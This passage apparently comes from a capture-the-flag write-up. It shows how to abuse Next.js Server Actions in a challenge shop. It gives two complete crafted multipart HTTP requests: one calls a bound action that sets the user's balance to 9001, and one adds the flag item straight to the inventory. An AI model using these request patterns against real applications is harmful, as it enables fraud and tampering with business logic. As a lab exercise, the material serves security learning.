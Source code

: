 ```
asdzxc123
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

Now, with all the things we've gone through to understand how Server Actions work, we should have at least 3 paths to get the flag.

### Path 1 - Rosebud, kaching and motherlode

We could send a request usually used with bounded actions to arbitrarily set our balance to any desired value, effectively bypassing any intended limitations. With our balance set sufficiently high, we could then simply purchase the EPT Tote Bag that contains the flag, completing the challenge without needing any additional exploits.

In the request shown below, we basically call `setMoney.bind(null, 9001)()`.

```
POST /items HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 409

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"5033aa9e8e719350ff01f9a353595d64a7488812","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

[9001]
------WebKitFormBoundaryQApJRAsTKClOX1Fa--

```

### Path 2 - EPT Tote Bag in my bag

Similarily, an even easier way is to just simply add the EPT Tote Bag containing the flag, directly to our inventory.

In the request shown below, we basically call `addItem.bind(null, "EPT Tote Bag")()`.

```
POST /items HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 421


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"240aa4f8f6a6e8c0edfbc1f6b473afaa2164e7b7","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

["EPT Tote Bag"]
```